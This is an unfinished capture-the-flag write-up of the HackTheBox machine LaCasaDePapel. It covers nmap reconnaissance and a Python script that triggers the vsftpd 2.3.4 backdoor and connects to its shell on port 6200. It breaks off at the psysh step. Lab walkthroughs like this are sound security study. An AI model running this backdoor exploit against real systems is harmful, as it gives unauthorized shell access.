 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: htb/LaCasaDePapel/lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

Fill out later

## 1. discovery - network service scanning - nmap

```bash
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![discovery_http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2-http.png)

 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![discovery_https](https://mrjak3.github.io/assets/img/htb/LaCasaDePapel/3_https.png)

## 4. initial access - exploit public facing application - vsftp

 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```bash
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.
 4.4 Running the script:

 ![exploit_vsftp](https://mrjak3.github.io/assets/img/htb/lacasadepapel/4.4-vsftp.png)

## 5. Psy shell

5.1 Lets try executing system commands using the `cmd` operator
